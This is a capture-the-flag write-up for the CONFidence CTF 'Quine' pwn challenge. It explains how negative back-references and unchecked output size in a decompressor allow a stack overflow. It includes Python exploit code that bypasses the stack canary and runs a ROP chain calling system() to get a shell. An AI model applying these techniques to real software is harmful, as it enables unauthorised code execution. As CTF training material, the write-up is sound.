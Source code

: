 # CONFidence CTF Teaser Quine

**Category:** Pwning
**Points:** 400
**Solves:** 19
**Description:**

> Yo Dawg! I herd you like compression!
>
> Files: [quine](quine) [libc.so.6](libc.so.6)
>
> Running at 95.138.166.12:31337


## Write-up

You are provided with a binary that implements decompression-as-a-service with a simple custom data format. The decompression appends data to the output buffer either by taking a literal byte from the input stream, or reusing a slice of the output buffer.

As far as protection goes, we have ASLR and NX, but no PIE. We also have `system()@plt` in the binary, which helps.

There are two vulnerabilities that lead to a working exploit, both of which are in the decoder:
* Output buffer size is never checked -- it's trivial to cause an overflow;
* Reusing the slice of output allows for negative offsets, copying data backwards into the array.

Decompiled function is as follows:
```C
size_t __cdecl decode_buf(char *res, int reslim /* BUG: never used */, char *inp, int inplim) {
  size_t i; // [sp+14h] [bp-24h]@1
  int back_idx; // [sp+1Ch] [bp-1Ch]@9
  int copy_len; // [sp+20h] [bp-18h]@9
  bitstream input; // [sp+24h] [bp-14h]@1

  bitstream_constructor(&input, inp, inplim);
  i = 0;
  while ( num_bits_left(&input) != 0 ) {
    if ( extract_bits(&input, 1u) )  {
      if ( num_bits_left(&input) <= 7 )
        die("Invalid input buffer");
      res[i++] = extract_bits(&input, 8u);
    } else {
      if ( num_bits_left(&input) == 0 )
        die("Invalid input buffer");
      if ( extract_bits(&input, 1u) == 0 )      // terminating cond
        return i;
      back_idx = extract_varint(&input);
      copy_len = extract_varint(&input);
      if ( &res[i - back_idx - 1] < res )
        die("Invalid input buffer");
      if ( copy_len > i )
        die("Invalid input buffer");
      memcpy(&res[i], &res[i - back_idx - 1], copy_len);  // BUG: back_idx can be negative
      i += copy_len;
    }
  }
  return i;
}
```

In the calling code, the stack frame looks like the following:
```C
  char output_smashable[2048]; // [sp+2Bh] [bp-2005h]@7
  char input_stream[1024]; // [sp+82Bh] [bp-1805h]@7
  char __unused__[2049]; // [sp+102Bh] [bp-1005h]@3
  int canary; // [sp+202Ch] [bp-4h]@1
```

The complication is that if we try to smash the output buffer, we will trash the input stream which will affect the decoding process. In effect, some data will be doubly decoded (almost like a quine).

So, the plan of attack was to send a message that decodes to ROP, then the quiny bit, then a sequence of copies that smashes the buffer, then a copy operation that overwrites the next few instructions with the quiny bit.

In turn, the quiny bit needs to do the prep work for getting past the canary and copying the ROP chain. Then it can return, triggering the ROP.

We've reserved 200 bytes for ROP, 200 bytes for the quiny bit, and tried to smash the stack leading to a close-enough alignment so that a copy of the quiny payload would overwrite the current instructions. With trial and error, we got a payload to write 2541 bytes before an overlap occurs:

```python
for c in ROP + CODE:                                                             
  literal(ord(c))                                                                
literal(0)                                                                       
for i in xrange(11):                                                             
  i = 2**i                                                                       
  copy(i-1, i)                                                                   
                                                                                 
for i in xrange(3):                                                              
  literal(0x41)                                                                  
copy(255, 80)                                                                    
```

Cool, so now we can copy the `CODE` (quiny) bytes forward.

```python
copy(2541-202, 100)
```

We have chosen our payload thus far to generate an even number of bytes (multiple-of-8 bits for the compressed sequence so far) so that the overwrite lines up nicely. It's 491 bytes, 0 bits long right after this poing. Execution will continue in the quiny `CODE` bit. This is why it had to be doubly-compressed as mentioned above.

Now, what should `CODE` do? Well, we're still unpacking from the inside of our input buffer, and we have a lot of bytes to smash. We had trouble aligning the first few instructions, but the following seemed to align the quine execution and smash the stack adequately:
```python
for i in xrange(4):
  literal(0xff)  # encodes to 28 x 1-bits
literal(0x41)                                                                    
literal(0x42)                                                                    
literal(0x43)                                                                    
literal(0x44)                                                                    
# n=2639 bytes overwritten from beginning of output buffer so far
copy(2000, 1024*3 - 2639)                                                        
# n=3072                                                                         
copy(2048, 2048)                                                                 
copy(4096, 3072)                                                                 
# n=8192                                                                         
literal(0x41)                                              

# We are now at the canary. One more literal(0x41) causes a stascksmash abort.
```

To bypass the canary, we use the second bug:
```python
copy(0xffffffff, 4)  # canary                                                    
skip = 12   # saved regs and 16-byte align, whatever
for i in xrange(skip):                                                           
  literal(0x43)                                                                  
copy(8192+4+skip, 200)  # rop
```

The offset for the last `copy()` is calculated by taking number of bytes copied so far, since ROP starts at offset 0. We can now ROP freely.

The ropchain isn't pretty, and it has a lot of shamanism. `fgets()` crashed reliably, don't know why, so we copied in a `"sh\0\0"` with `scanf("%u")`. Also, the chain had to be padded with a bunch of `A`s, otherwise the decoder shits itself. If anyone can explain why, please edit this writeup adding a note below.

```python
FGETS = 0x080486c0  # unused                                                     
STDIN = 0x0804b060  # unused                                                     
SCANF = 0x08048700                                                               
SYSTEM = 0x080486a0                                                              
EXIT = 0x08048790                                                                
FMT = 0x0804901b  # "%u"                                                         
BUF = 0x0804b100  # something writeable                                          
BUMP_ESP = 0x0804864e  # add esp, 0x08 ; pop ebx ; ret  ;                        

ROP = ''                                                                         
ROP += pack('IIII', SCANF, BUMP_ESP, FMT, BUF) + "ABCD"                          
ROP += pack('III', SYSTEM, EXIT, BUF)                                            
ROP += pack('II', 0, 0)                                                          
ROP = ROP.ljust(170, '\0')                                                       
ROP = ROP.ljust(200, 'A')                                                        
```

Running this, we get a shell and after a `cat /*/*/*flag*`, we get `DrgnS{n0w_y0u_c4n_d3compr3ss_wh1Ie_u_dec0mpreSS}`. Cute.

The full exploit is also in the repo with a traffic log. Enjoy.

## Other write-ups and resources

* <https://gist.github.com/g05u/990cc267c0ea1455e39a>
